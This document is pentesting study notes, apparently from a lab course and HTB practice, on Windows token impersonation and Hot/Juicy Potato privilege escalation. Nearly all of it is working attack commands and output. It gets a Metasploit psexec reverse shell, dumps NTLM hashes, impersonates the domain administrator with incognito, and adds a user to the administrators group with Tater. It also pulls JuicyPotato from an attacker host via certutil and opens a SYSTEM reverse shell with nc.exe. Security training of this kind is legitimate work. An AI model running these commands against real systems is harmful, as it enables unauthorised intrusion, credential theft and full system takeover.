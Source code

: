 # Token Impersonation - Potato attacks

## What is it

- Token are temp keys that give access to a system or network without credentials.

## How to

- Launch Metasploit `msfconsole`
- Choose the exploit: `use exploit/windows/smb/psexec`
- Set: rhosts, smbdomain, smbpass, smbuser, target (we can use `show targets` to have a list), payload
- Launch the attack: `run`
- We get a shell:
  ```
  msf6 exploit(windows/smb/psexec) > run

  [*] Started reverse TCP handler on 10.0.2.8:4444 
  [*] 10.0.2.15:445 - Connecting to the server...
  [*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445|marvel.local as user 'fcastle'...
  [!] 10.0.2.15:445 - peer_native_os is only available with SMB1 (current version: SMB3)
  [*] 10.0.2.15:445 - Uploading payload... oeyrkyrs.exe
  [*] 10.0.2.15:445 - Created \oeyrkyrs.exe...
  [*] Sending stage (200262 bytes) to 10.0.2.15
  [+] 10.0.2.15:445 - Service started successfully...
  [*] 10.0.2.15:445 - Deleting \oeyrkyrs.exe...
  [*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.15:61871 ) at 2022-02-11 13:49:12 -0500

  meterpreter > 
  ```
- Getting hashes: `hashdump`
  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
  ```
- Use tools: `load` (double tab to get the list of tools)
- `load incognito`
  ```
  Incognito Commands
  ==================

      Command              Description
      -------              -----------
      add_group_user       Attempt to add a user to a global group with all tokens
      add_localgroup_user  Attempt to add a user to a local group with all tokens
      add_user             Attempt to add a user with all tokens
      impersonate_token    Impersonate specified token
      list_tokens          List tokens available under current user context
      snarf_hashes         Snarf challenge/response hashes for every token
  ```
- list_tokens -u
  ```
  meterpreter > list_tokens -u

  Delegation Tokens Available
  ========================================
  Font Driver Host\UMFD-0
  Font Driver Host\UMFD-1
  Font Driver Host\UMFD-2
  MARVEL\Administrator
  MARVEL\fcastle
  NT AUTHORITY\LOCAL SERVICE
  NT AUTHORITY\NETWORK SERVICE
  NT AUTHORITY\SYSTEM
  Window Manager\DWM-1
  Window Manager\DWM-2

  Impersonation Tokens Available
  ========================================
  No tokens available
  ```
- Impersonate Administrator: 
  ```
  meterpreter > impersonate_token marvel\\administrator
  [+] Delegation token available
  [+] Successfully impersonated user MARVEL\Administrator
  meterpreter > shell
  Process 8576 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.19044.1288]
  (c) Microsoft Corporation. All rights reserved.
  C:\Windows\system32>whoami
  whoami
  marvel\administrator
  ```
- If we hashdump again it will not work so we can rev2self to get back to the initial user
- Any user that has logged in the target will have a token there until the target reboots

## Potato Attacks

### Hot potato

- We can use [Tater](https://github.com/Kevin-Robertson/Tater)
- `powershell.exe -nop -ep bypass`
- `Import-Module .\Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
- Your user should be in the administrators group `net localgroup administrators` to check

- See [here](../writeups/HTB-Jeeves.md) an example of a potato attack

### Juicy potato

#### Enumeration after initial shell with MSSQL

- Say we have a shell on an mssql instance `mssqlclient.py sql_dev@IP-ADD -windows-auth`
- We can enable command shell using `enable_xp_cmdshell`
- And then we will be able to type every command we need this way: `xp_cmdshell whoami /priv`
- For juicy potato we need to check if we have `SeImpersonatePrivilege` enabled  
![image](https://user-images.githubusercontent.com/96747355/163688651-8f07b5f6-4b0d-4ece-bb80-8249770d3b29.png)  
- We do!

#### Exploitation

- Let's get JuicyPotato binary in our attacking machine `wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`
- Let's serve the file to our target using python http server `python3 -m http.server 80`
- Let's take it in our shell using certutil `xp_cmdshell certutil.exe -urlcache -f http://10.10.14.117/JuicyPotato.exe C:\Tools\JuicyPotato.exe`
- Let's get an admin shell `xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.117 8443 -e cmd.exe" -t *` where -l is the COM server listening port, -p is the program to launch (cmd.exe), -a is the argument passed to cmd.exe, and -t is the createprocess call. We are trying both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively.
- And we should have an authority system shell  
![image](https://user-images.githubusercontent.com/96747355/163689119-b9682c58-c8cc-421b-9d62-1e2d7451f525.png)  

## Resources

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %} Rotten Potato - Foxglove Security {% endembed %}  
{% embed url="https://github.com/ohpe/juicy-potato" %} Juicy Potato {% endembed %}  
{% embed url="https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners" %} TCM Security - Windows privilege escalation {% endembed %}  
